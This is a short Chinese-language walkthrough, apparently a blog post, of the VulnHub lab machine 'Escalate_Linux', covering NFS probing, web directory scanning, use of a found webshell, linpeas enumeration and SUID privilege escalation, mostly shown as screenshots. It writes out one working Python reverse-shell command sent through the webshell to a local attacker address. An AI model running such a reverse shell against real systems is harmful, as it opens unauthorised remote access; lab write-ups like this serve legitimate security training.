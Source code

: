 ```yaml
---
layout: post
title:  "Escalate_Linux"
description: walkthrough
category: vulnhub
---
```

# Escalate_Linux



![image-20200613234426607]({{ site.url }}/assets/Escalate_Linux.assets/image-20200613234426607.png)

先测试nfs

![image-20200613234734752]({{ site.url }}/assets/Escalate_Linux.assets/image-20200613234734752.png)

尝试利用ssh。但是权限不足。

![image-20200614041443338]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614041443338.png)

新建用户user5 ，uid 1004

![image-20200614041718459]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614041718459.png)

查看了一下，没什么有用的信息，但是user5有个拥有suid的程序`script`



往下进行80端口扫目录

扫到一个shell.php

![image-20200614065812149]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614065812149.png)

![image-20200614065839626]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614065839626.png)

看样子是个webshell

直接nc不好用，看看python

![image-20200614065938190]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614065938190.png)

```bash
192.168.1.117/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.108",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![image-20200614070056746]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614070056746.png)

上传linpeas进行枚举

![image-20200614073421926]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614073421926.png)



![image-20200614081718345]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614081718345.png)

可以进mysql，发现所有u用户的凭证，也有很多其他提权方式，都是基础简单的，不再累诉，

SUID之一，home/user/shell

直接提权

![image-20200614082440754]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614082440754.png)
